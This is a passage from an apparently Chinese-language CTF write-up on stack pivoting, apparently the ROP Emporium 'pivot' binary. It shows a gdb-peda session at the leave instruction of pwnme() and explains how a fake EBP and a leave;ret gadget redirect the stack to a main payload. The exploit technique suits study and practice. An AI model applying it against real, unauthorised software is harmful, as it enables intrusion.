 这里我们在 gdb 中验证一下，在 pwnme() 函数的 leave 处下断点：

```text
gdb-peda$ b *0x0804889f
Breakpoint 1 at 0x804889f
gdb-peda$ c
Continuing.
[----------------------------------registers-----------------------------------]
EAX: 0xffe7ec40 ('A' <repeats 40 times>, "\f\317U\367\237\210\004\b\n")
EBX: 0x0
ECX: 0xffe7ec40 ('A' <repeats 40 times>, "\f\317U\367\237\210\004\b\n")
EDX: 0xf7731860 --> 0x0
ESI: 0xf772fe28 --> 0x1d1d30
EDI: 0x0
EBP: 0xffe7ec68 --> 0xf755cf0c --> 0x0
ESP: 0xffe7ec40 ('A' <repeats 40 times>, "\f\317U\367\237\210\004\b\n")
EIP: 0x804889f (<pwnme+173>:    leave)
EFLAGS: 0x282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x8048896 <pwnme+164>:       call   0x80485b0 <fgets@plt>
   0x804889b <pwnme+169>:       add    esp,0x10
   0x804889e <pwnme+172>:       nop
=> 0x804889f <pwnme+173>:       leave  
   0x80488a0 <pwnme+174>:       ret
   0x80488a1 <uselessFunction>: push   ebp
   0x80488a2 <uselessFunction+1>:       mov    ebp,esp
   0x80488a4 <uselessFunction+3>:       sub    esp,0x8
[------------------------------------stack-------------------------------------]
0000| 0xffe7ec40 ('A' <repeats 40 times>, "\f\317U\367\237\210\004\b\n")
0004| 0xffe7ec44 ('A' <repeats 36 times>, "\f\317U\367\237\210\004\b\n")
0008| 0xffe7ec48 ('A' <repeats 32 times>, "\f\317U\367\237\210\004\b\n")
0012| 0xffe7ec4c ('A' <repeats 28 times>, "\f\317U\367\237\210\004\b\n")
0016| 0xffe7ec50 ('A' <repeats 24 times>, "\f\317U\367\237\210\004\b\n")
0020| 0xffe7ec54 ('A' <repeats 20 times>, "\f\317U\367\237\210\004\b\n")
0024| 0xffe7ec58 ('A' <repeats 16 times>, "\f\317U\367\237\210\004\b\n")
0028| 0xffe7ec5c ('A' <repeats 12 times>, "\f\317U\367\237\210\004\b\n")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0x0804889f in pwnme ()
gdb-peda$ x/10w 0xffe7ec68
0xffe7ec68:     0xf755cf0c      0x0804889f      0xf755000a      0x00000000
0xffe7ec78:     0x00000002      0x00000000      0x00000001      0xffe7ed44
0xffe7ec88:     0xf755cf10      0xf655d010
gdb-peda$ x/10w 0xf755cf0c
0xf755cf0c:     0x00000000      0x080485f0      0x080488c0      0x0804a024
0xf755cf1c:     0x080488c4      0x08048571      0x000001f7      0x080488c7
0xf755cf2c:     0x080486a3      0x0000000a
```

执行第一次 leave;ret 之前，我们看到 EBP 指向 fake ebp，即 `0xf755cf0c`，fake ebp 指向 主payload 的 ebp，而在 fake ebp 后面是 leave;ret 的地址 `0x0804889f`，即返回地址。
